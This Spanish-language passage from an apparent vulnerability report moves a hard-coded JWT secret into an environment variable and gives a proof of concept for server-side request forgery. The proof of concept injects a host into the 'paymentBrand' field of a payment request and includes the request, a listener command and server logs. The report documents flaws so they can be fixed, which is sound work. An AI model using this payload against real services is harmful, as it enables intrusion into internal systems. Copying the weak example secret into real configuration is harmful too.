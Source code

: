 **Explicación:**

- El secreto JWT ya no está embebido en el código fuente.
- Ahora se toma desde una variable de entorno (`JWT_SECRET`), lo que permite cambiarlo sin modificar el código y mantenerlo fuera del repositorio.
- Esto mitiga la vulnerabilidad, ya que un atacante no puede obtener el secreto simplemente accediendo al código fuente.

**Configuración adicional:**
Agregar la variable en el archivo `.env`:

```
JWT_SECRET=supersecretkey
```

## 3. Falsificación de Peticiones del Lado del Servidor (SSRF)

### Prueba de Concepto (PoC)

**Paso 1:** Iniciar un servidor local para recibir la petición:

```sh
python3 -m http.server 8000
```

**Paso 2:** Realizar una petición maliciosa al backend:

```sh
curl -X POST http://localhost:3000/invoices/1/pay \
     -H "Authorization: Bearer <TOKEN>" \
     -H "Content-Type: application/json" \
     -d '{"paymentBrand":"localhost:8000","ccNumber":"4111111111111111","ccv":"123","expirationDate":"12/25"}'
```

**Evidencia en el servidor Python:**

```
127.0.0.1 - - [23/Sep/2025 13:11:50] code 501, message Unsupported method ('POST')
127.0.0.1 - - [23/Sep/2025 13:11:50] "POST /payments HTTP/1.1" 501 -
```

**Respuesta obtenida en curl:**

```json
{ "message": "Request failed with status code 501" }
```

**Explicación:**

- El backend realizó una petición HTTP a la dirección indicada en el parámetro `paymentBrand`, demostrando la vulnerabilidad SSRF.
- El servidor Python recibió la petición, aunque respondió con error 501, lo que confirma que el backend puede ser manipulado para hacer peticiones arbitrarias.

**Evidencia:**
